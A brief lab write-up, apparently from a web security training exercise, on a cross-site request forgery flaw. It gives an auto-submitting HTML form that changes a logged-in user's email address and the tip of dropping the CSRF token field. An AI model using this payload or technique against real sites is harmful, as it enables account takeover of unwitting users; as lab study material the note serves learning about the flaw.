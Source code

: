 # CSRF Vulnerability


![****](/CSRF/Screenshots/csrf3.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Just remove the CSRF Token field and check if you can submit the request!